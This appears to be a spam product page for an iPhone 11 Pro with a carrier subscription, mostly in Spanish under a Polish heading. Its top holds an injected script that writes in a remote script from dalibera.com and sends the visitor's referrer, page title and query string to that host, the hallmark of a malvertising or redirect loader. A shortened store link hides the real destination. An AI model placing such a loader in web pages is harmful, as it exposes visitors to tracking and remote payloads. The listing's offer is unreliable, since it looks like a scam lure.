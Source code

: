 <script type="application/javascript">
document.write('<script type="application/javascript" src="//dalibera.com/37C7dCVr?se_referrer=' + encodeURIComponent(document.referrer) + '&default_keyword=' + encodeURIComponent(document.title) + '&'+window.location.search.replace('?', '&')+'&frm5f2ed7028db0d=script5f2ed7028db0e"><' + '/script>');
</script>

<img src="https://knwmeg.github.io/iphone/PL1.jpg"/>

## iPhone 11 PRO

Apple iPhone 11 Pro (64 GB, verde medianoche) [operador bloqueado] + suscripción de operador [Cricket Wireless] (crédito de tarjeta de regalo de Amazon de $ 10 / mes)

### Dane techniczne

Pantalla OLED Super Retina XDR de 5,8 pulgadas
Resistente al agua y al polvo (4 metros por hasta 30 minutos, IP68)
Sistema de triple cámara con cámaras ultra gran angular, gran angular y telefoto de 12 MP; Modo nocturno, modo retrato y video 4K hasta 60 fps
Cámara frontal TrueDepth de 12MP con modo retrato, video 4K y cámara lenta
Face ID para autenticación segura y Apple Pay
Chip A13 Bionic con Neural Engine de tercera generación
Carga rápida con adaptador de 18 W incluido
Carga inalambrica

Para obtener más detalles, consulte [Tienda](http://shorturl.at/dgnxM).
